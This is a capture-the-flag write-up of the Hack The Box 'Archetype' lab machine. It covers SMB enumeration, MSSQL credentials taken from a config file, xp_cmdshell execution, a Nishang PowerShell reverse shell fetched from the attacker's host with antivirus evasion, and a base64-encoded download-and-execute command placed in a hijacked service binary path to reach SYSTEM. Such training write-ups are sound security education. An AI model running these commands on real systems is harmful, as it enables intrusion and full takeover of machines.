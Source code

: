 # HacktheBox - Archetype Writeup


## Enumeration

- 1000 ports scan
```bash
nmap -sC -sV -oN nmap/initial 10.10.10.27
```

![initial nmap scan](1.png "initial nmap scan")

- all ports scan

![full nmap scan](2.png "full nmap scan")

### Open ports
- 135 (msrpc)
- 139 (smb 4 sure)
- 445 (smb 4 sure)
- 1433 (ms-sql-s/Microsoft SQL Server)

## SMB Enum

### CrackMapEXEC

![crackmapexec](3.png "crackmapexec")

### smbclient

![smbclient](4.png "smbclient")

wow `backups` shares. Let's try connect to it.

![backup shares](5.png "backup shares")

- download the file using the `get command`

### prod.dtsConfig
- content of the file

```perl
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
we've got the credentials

- `ARCHETYPE\sql_svc:M3g4c0rp123`

## Foothold/Gaining Access

### mssqlclient.py[Impacket]

- mssqlclient syntax

```bash
mssqlclient.py <UserID>@<IP addr> -windows-auth
```

![mssqlclient](6.png "mssqlclient")

- always do this after login `enable_xp_cmdshell`
- let's try run `whoami`

![xp_cmdshell whoami](7.png "xp_cmdshell whoami")

- Note: I'm using `xp_cmdshell` then `whoami`

### Nishang

{{< admonition tip "Nishang" >}}
[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.
{{< /admonition >}}

- I'm gonna copy the `Invoke-PowerShellTcp.ps1` into my `www` directory. Then, rename it to `rev.ps1`

![copy PowerShellTcp.ps1](8.png "copy PowerShellTcp.ps1")

- Open the `rev.ps1` file and pick one of the example. Then `copy` and `paste` it on the last line of the code.

{{< admonition tip >}}
Make sure! change the ip and port
{{< /admonition >}}


![PowerShellTcp.ps1 example](9.png "PowerShellTcp.ps1 example") _examples_

![modify PowerShellTcp.ps1](10.png "modify PowerShellTcp.ps1") <br>_put in here and save it_

- Time to upload the script into the machine by using `mssqlclient.py` that we connected.
	-	I'm gonna run `python server` inside `www` directory.
	-	`python3 -m http.server`
	- Then try to uploaded using this command:
		- `xp_cmdshell powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.13:8000/rev.ps1\")`  
	- And this happen

![blocked by AV](11.png "blocked by AV") <br>  _it says this script got blocked by antivirus because of this function_

- So, I change the function into something else. It works.


![execute again](12.png "execute again")

## User flag

![user flag](14.png "user flag")

### WinPEAS

- Upload the winpeas binary into the machine
- I'm gonna use `powershell` to know this machine `architecture`
  - by using this command:
    - `(wmic os get OSArchitecture)[2]`

![check OSArchitecture](13.png "check OSArchitecture")

- This machine is 64-bit. I'm gonna upload `WinPEAS 64-bit version` to work.

- I'm gonna `copy` and `paste` the `WinPEAS` binary into my `www` folder.
- Let's upload it by using this command:
    - `IWR http://10.10.16.13:8000/winPEASx64.exe -OutFile winpeas.exe`

![download WinPEAS](15.png "download WinPEAS")

- Then run it by using this command `.\winpeas.exe`

## Privilege Escalation

### UsoSvc

- `WinPEAS` just found this juicy stuff:

![UsoSVC modify services](16.png "UsoSVC modify services")

### Modify service binary path
- According this [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
> If the group "Authenticated users" has *<font color="red">SERVICE\_ALL\_ACCESS</font>* in a service, then it can <font color="yellow">modify the binary</font> that is being executed by the service.

---

### Encoded Command
-  Here is the script before Encoded
```powershell
IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)
```
- Time to encoded
```bash
echo "IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```
- First, It's gonna encoded into `utf-16le`
- Second, It's gonna encoded into `base64`
- Sources [IppSec](https://youtu.be/iyYqgseKUPM?t=2299)

---

- So, I'm gonna `copy` another `powershell reverse shell` by name it into `zzz.ps1`
- Then upload it using this command:
```powershell
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4AMQAzADoAOAAwADAAMAAvAHoAegB6AC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```

- After that, run this command `sc.exe start UsoSvc`

![create a service](17.png "create a service")


![catch the shell](18.png "catch the shell") <br> _we've got the reverse shell and become system!_

## Administrator Flag

![administrator flag](19.png "administrator flag")

## Conclusion
I’ve learned a lot of tools today and `how to do a PowerShell reverse shell`. Ngl, this is a really fun box. I feel like my brain want to explode

I have a fun time doing this machine and I hope you guys too. Bye ;)
